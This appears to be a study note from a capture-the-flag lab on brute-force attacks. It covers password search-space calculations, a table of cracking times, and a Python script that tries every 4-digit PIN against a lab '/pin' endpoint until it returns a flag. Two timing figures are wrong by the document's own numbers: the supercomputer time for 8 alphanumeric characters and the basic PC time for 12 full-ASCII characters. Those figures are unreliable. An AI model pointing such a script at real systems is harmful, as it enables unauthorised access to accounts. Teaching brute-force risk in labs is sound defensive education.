 # 🔓 Brute Force Attacks

Brute-force attacks systematically attempt all possible password combinations until the correct one is found. The feasibility of such attacks is governed by the **size of the search space**, which grows exponentially with password length and character variety.

---

## 📐 Password Search Space: The Math

To calculate the number of possible password combinations:

```
Possible Combinations = (Character Set Size) ^ (Password Length)
```

### 🧮 Examples:

| Description            | Length | Character Set                | Combinations                         |
|------------------------|--------|------------------------------|--------------------------------------|
| Short and Simple       | 6      | Lowercase (a–z)              | 26⁶ = 308,915,776                    |
| Longer but Simple      | 8      | Lowercase (a–z)              | 26⁸ = 208,827,064,576                |
| Added Case Sensitivity | 8      | a–z, A–Z                     | 52⁸ = 53,459,728,531,456             |
| Maximum Complexity     | 12     | a–z, A–Z, 0–9, symbols (~94) | 94¹² ≈ 4.76 × 10²³ (475 quintillion) |

> ✅ **Key Insight**: Each additional character **exponentially** increases cracking difficulty.

---

## 🖥️ Cracking Time: Basic vs Supercomputer

### Cracking Speeds (Examples):

- **Basic PC**: ~1 million guesses/second  
- **Supercomputer**: ~1 trillion guesses/second

| Password Type              | Combinations          | Basic PC Time     | Supercomputer Time |
|---------------------------|-----------------------|-------------------|---------------------|
| 6 lowercase               | ~309 million          | ~5 minutes        | <1 second           |
| 8 alphanumeric            | ~218 trillion         | ~6.92 years       | ~1.7 hours          |
| 12 full ASCII (94 chars) | ~4.76 × 10²³          | 15 million years  | ~15,000 years       |

> 💡 **Takeaway**: Even the most powerful hardware can't brute-force long, complex passwords efficiently.

---

## 🎯 Practical Brute Force Demo – Cracking a 4-digit PIN

The target system exposes an endpoint `/pin?pin=xxxx`. A correct 4-digit PIN returns a flag.

### 🔧 Python Script: `pin-solver.py`

```python
import requests

ip = "127.0.0.1"   # 🔁 Replace with target IP
port = 1234        # 🔁 Replace with target port

# Try all 10,000 possible 4-digit PINs (0000–9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"
    print(f"Attempted PIN: {formatted_pin}")

    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():
        print(f"✅ Correct PIN found: {formatted_pin}")
        print(f"🏁 Flag: {response.json()['flag']}")
        break
```

> 🔄 This script brute-forces all 4-digit PINs and identifies the correct one by checking the response for a `flag`.

### 🖥️ Sample Output:

```
Attempted PIN: 4052
✅ Correct PIN found: 4053
🏁 Flag: HTB{...}
```

---

## 🔐 Key Lessons

- **Short numeric PINs are trivial to brute-force**.
- Even **moderate password complexity** significantly boosts security.
- The **real-world feasibility** of brute-force attacks depends heavily on:
  - Password length and charset
  - Lockout mechanisms
  - Rate-limiting
  - Attacker's hardware resources

---
